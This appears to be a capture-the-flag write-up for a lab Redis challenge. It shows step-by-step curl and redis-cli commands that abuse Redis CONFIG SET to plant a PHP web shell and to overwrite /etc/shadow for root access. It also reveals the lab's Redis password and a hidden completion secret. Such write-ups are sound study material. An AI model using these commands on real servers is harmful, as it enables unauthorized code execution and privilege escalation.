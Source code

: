 # Redis Bug Hunt
Location: Kitchen

The objective is to retrieve the index.php file from the server.

## Approach 1: Pushing a PHP file into the Web Tree
This can be done using these commands:
```
curl http://localhost/maintenance.php?cmd=config,set,dir,/var/www/html
curl http://localhost/maintenance.php?cmd=config,set,dbfilename,m.php
curl 'http://localhost/maintenance.php?cmd=set,test,<?php%20echo%20file_get_contents("index.php");%20?>'
curl http://localhost/maintenance.php?cmd=save
curl http://localhost/m.php --output -
```

## Approach 2: Become root
The Redis password can be found with the above method in the file maintenance.php, it is `R3disp@ss`.
As the Redis server is running as `root`, we can overwrite `/etc/shadow` with new content. In this case the `root` user's password is set to `Marie`.
```
player@95bbb6f62400:~$ printf "\n\nroot:cbMHDguL1fenw:16928:0:99999:7:::\n" > x
player@95bbb6f62400:~$ redis-cli --raw -a 'R3disp@ss' -x set 1 < x
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
OK
player@95bbb6f62400:~$ redis-cli --raw -a 'R3disp@ss' config set dir /etc
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
OK
player@95bbb6f62400:~$ redis-cli --raw -a 'R3disp@ss' config set dbfilename shadow
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
OK
player@95bbb6f62400:~$ redis-cli --raw -a 'R3disp@ss' save
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
OK
player@95bbb6f62400:~$ ls -l /etc/shadow
-rw-r--r-- 1 root root 243 Dec 30 18:07 /etc/shadow
player@95bbb6f62400:~$ su -
Password: 
root@95bbb6f62400:~# cat /var/www/html/index.php 
<?php

# We found the bug!!
#
#         \   /
#         .\-/.
#     /\ ()   ()
#       \/~---~\.-~^-.
# .-~^-./   |   \---.
#      {    |    }   \
#    .-~\   |   /~-.
#   /    \  A  /    \
#         \/ \/
# 

echo "Something is wrong with this page! Please use http://localhost/maintenance.php to see if you can figure out what's going on"
?>
root@95bbb6f62400:~# cat /etc/runtoanswer.yaml 
# This is the config file for runtoanswer, where you can set up your challenge!
---

# This is the completionSecret from the Content sheet - don't tell the user this!
key: 4ec1769f83fd212bcb9d22b2316d8706
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTkzODYyNTU5MiwtNTYzNDUyNDAxLDI4OD
Y5NzAxOSw0Nzg5NTkyNjcsNzMwOTk4MTE2XX0=
-->